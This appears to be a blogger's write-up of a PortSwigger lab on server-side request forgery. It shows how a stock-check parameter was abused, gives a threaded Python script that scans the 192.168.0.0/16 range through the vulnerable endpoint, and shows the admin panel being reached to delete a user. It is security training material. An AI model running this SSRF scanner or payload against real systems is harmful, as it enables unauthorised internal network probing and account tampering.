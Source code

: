 # Basic SSRF against another back-end system | Dec 24, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system), you'll learn: Basic SSRF against another back-end system! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021054.png)

In the previous lab, we found that **there is a Server-Side Request Forgery(SSRF) vulnerability in the stock check functionality**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021144.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021207.png)

When we clicked the `Check stock` button, **it'll send a POST request to `/product/stock`, with parameter `stockApi`, and the value is interesting:**

**URL decoded:**
```
http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

As you can see, it's fetching data from an internal system.

> Note: IPv4 class C private IP address range is from `192.168.0.0` to `192.168.255.255`.

**Now, what if I change the IP address to `192.168.0.2`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224021622.png)

**HTTP status 500, Internal Server Error.**

**Armed with above information, we can scan the entire IPv4 class C private IP address range!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, cookie, IP):
    # Exclude IP 192.168.0.1, which is the stock API address
    if IP == '192.168.0.1':
        return

    data = {
        'stockApi': f'http://{IP}:8080/'
    }

    # Send a POST request to /product/stock, and the data is SSRF payload
    postStockStatusCode = requests.post(url, cookies=cookie, data=data).status_code

    # Using \r to clean previous line
    print(f'[*] Trying IP: {IP}', end='\r')

    if postStockStatusCode != 500:
        print(f'[+] Found valid internal IP addres: {IP}')

def main():
    url = 'https://0ac0003804fb904cc09c4fbf00ec00dc.web-security-academy.net/product/stock'
    cookie = {'session': 'SJCJgVBSnjDBYBwoVILv3a5gcV5F2PQ4'}

    # Generate a list of class C IPv4 private IP addresses, from 192.168.0.0 to 192.168.255.255
    listIPAddress = list()

    for thridOctet in range(256):
        for fourthOctet in range(256):
            listIPAddress.append(f'192.168.{thridOctet}.{fourthOctet}')

    # For each private IP address, spawn a new thread to function sendRequest(url, cookie, IP)
    for IP in listIPAddress:
        thread = Thread(target=sendRequest, args=(url, cookie, IP))
        thread.start()

        # You can adjust how fast of each connection, 0.1s is recommended 
        sleep(0.1)


if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Request-Forgery]
└─# python3 ssrf_priv_ip.py
[+] Found valid internal IP addres: 192.168.0.176
```

**Now, let's try to go to `http://192.168.0.176:8080/` via our SSRF payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024706.png)

**Not found, do I need to supply `/admin` for the admin panel?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024734.png)

**Nice! Let's delete user `carlos`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024806.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024824.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-2/images/Pasted%20image%2020221224024830.png)

We did it!

# What we've learned:

1. Basic SSRF against another back-end system